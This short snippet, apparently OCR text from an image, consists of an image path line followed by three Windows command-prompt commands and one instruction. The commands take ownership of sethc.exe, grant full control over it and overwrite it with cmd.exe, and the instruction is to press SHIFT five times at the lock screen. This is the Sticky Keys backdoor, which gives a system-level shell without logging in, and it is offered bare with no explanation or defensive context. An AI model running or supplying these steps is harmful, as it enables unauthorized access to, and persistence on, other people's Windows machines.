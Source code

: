 
```CMD
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
click the SHIFT key five times at the lock screen
